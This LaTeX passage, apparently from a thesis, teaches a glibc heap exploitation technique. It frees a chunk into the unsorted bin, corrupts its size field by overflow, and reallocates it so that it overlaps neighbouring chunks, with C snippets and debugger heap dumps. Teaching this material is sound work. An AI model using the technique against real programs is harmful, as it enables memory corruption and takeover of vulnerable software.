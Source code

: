 \documentclass{masterthesis}
\newcommand*\ub{unsorted bins}
\begin{document}
Now lets free() the second chunk, As we discuss, This chunk add to the \ub{} at first, then, It can be used for future allocation :

\begin{lstlisting}[language=c,frame=tlrb]
free(p2).
 \end{lstlisting}

\begin{lstlisting}[language=c,frame=tlrb]
unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
Chunk(addr=0x555555559110, size=0x100, flags=PREV\_INUSE)
\end{lstlisting}

\begin{lstlisting}[language=c,frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
Chunk(addr=0x555555559210, size=0x80, flags=)
 [0x0000555555559210  33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 3333333333333333]
Chunk(addr=0x555555559290, size=0x20d80, flags=PREV\_INUSE) top chunk

 \end{lstlisting}
In the next step, as we did before, We have to change the chunk size by overflow :

\begin{lstlisting}[language=c,frame=tlrb]
int evil_chunk_size = 0x181;
int evil_region_size = 0x180 - 8;
*(p2-1) = evil_chunk_size;
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]

unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
 Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 \end{lstlisting}
 
As you remember, currently, p2 located at the \ub{}, also, we change the size of p2, so, the heap manager return p2 when receives an allocation request, as the result, p2 has overlap with previous chunks :

\begin{lstlisting}[language=c,frame=tlrb]
p4 = malloc(evil_region_size);
 \end{lstlisting}
\end{document}

